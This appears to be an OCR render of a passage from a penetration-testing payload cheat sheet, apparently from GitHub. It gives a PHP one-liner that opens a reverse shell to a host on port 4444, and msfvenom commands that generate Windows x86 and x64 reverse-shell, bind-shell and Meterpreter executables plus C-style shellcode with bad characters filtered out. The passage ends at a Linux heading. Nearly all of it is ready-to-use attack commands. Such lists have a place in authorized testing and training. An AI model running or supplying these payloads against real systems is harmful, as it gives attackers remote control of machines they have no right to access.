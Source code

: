 \-\-\- 




#### As Command 


php \-r '$sock=fsockopen\("192\.168\.0\.1",4444\);exec\("/bin/sh \-i \<\&3 \>\&3 2\>\&3"\);'

### Windows Binary (.exe) 




\-\-\- 




#### 32 Bit (x86) 



Reverse Shell:
msfvenom \-p windows/shell\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f exe \-o shell\.exe

Bind Shell:
msfvenom \-p windows/shell\_bind\_tcp LPORT=4444 \-f exe \-o bind\_shell\.exe

Output in Hex, C Style, Exclude bad chars, Exitfunction thread:
msfvenom \-p windows/shell\_bind\_tcp LHOST=192\.168\.0\.1 LPORT=4444 EXITFUNC=thread \-b "\\x00\\x0a\\x0d\\x5c\\x5f\\x2f\\x2e\\x40" \-f c \-a x86 \-\-platform windows


\-\-\- 




#### 64 Bit (x64) 



Reverse Shell:
msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f exe \-o shell\.exe

Bind Shell:
msfvenom \-p windows/x64/shell\_bind\_tcp LPORT=4444 \-f exe \-o bind\_shell\.exe

Meterpreter:
msfvenom \-p windows/x64/meterpreter\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f exe \-o shell\.exe

### Linux Binary (.elf) 




\-\-\- 




#### 32 Bit (x86) 

